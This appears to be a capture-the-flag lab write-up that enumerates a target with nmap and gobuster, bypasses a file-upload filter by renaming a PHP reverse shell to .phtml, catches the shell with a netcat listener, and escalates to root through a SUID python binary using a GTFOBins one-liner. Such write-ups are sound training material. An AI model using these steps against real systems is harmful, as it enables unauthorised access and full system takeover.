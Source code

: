 
# Scanning and Enumeration

Doing an nmap scan:

```bash
nmap -p- -A -T4 10.10.25.127
```

Output:

```bash
PORT   STATE SERVICE VERSION

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

| ssh-hostkey: 

|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)

|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)

|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))

| http-cookie-flags: 

|   /: 

|     PHPSESSID: 

|_      httponly flag not set

|_http-server-header: Apache/2.4.29 (Ubuntu)

|_http-title: HackIT - Home

Linux 3.1 (95%)
```

Let's run gobuster to see if there's any hidden dir:

```bash
gobuster dir -u http://10.10.25.127 -w /usr/share/wordlists/dirb/common.txt
```

Output:

```bash
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/css (Status: 301)
/index.php (Status: 200)
/js (Status: 301)
/panel (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

# Exploitation

We have a **/panel** dir that we can upload files and a
**/uploads** that we can view the upload files

We get no permition to upload a file called: rev.php

I changed the file extension from .php to .phtml and we can
bypass the filter

Start a reverse shell:

```bash
nc -nvlp 4444
```

Navigate to /uploads and we get a shell

To get the first flag:

```bash
find / -name "user.txt" 2>/dev/null
/var/www/user.txt
```

SSH in the machine

```bash
ssh dark@10.10.127.152
```

# Post Exploitation

We can upload linpeas to the machine and enumarate but in this case
the developer is kind to us and tells us that we need to see the SUID
permissions in the machine. To do that:

```bash
find / -user root -perm /4000 2>/dev/null
```

Output:

```bash
/usr/bin/traceroute6.iputils
/usr/bin/newuidmap
/usr/bin/newgidmap
/usr/bin/chsh
/usr/bin/python
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/pkexec
...
```

# Privilege Escalation

**/usr/bin/python** is pretty weird to have the SUID bit set

If we look for python in
[GTFOBins](https://gtfobins.github.io/gtfobins/python/#suid)

First spawn a tty

```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```

And then

```bash
/usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
```

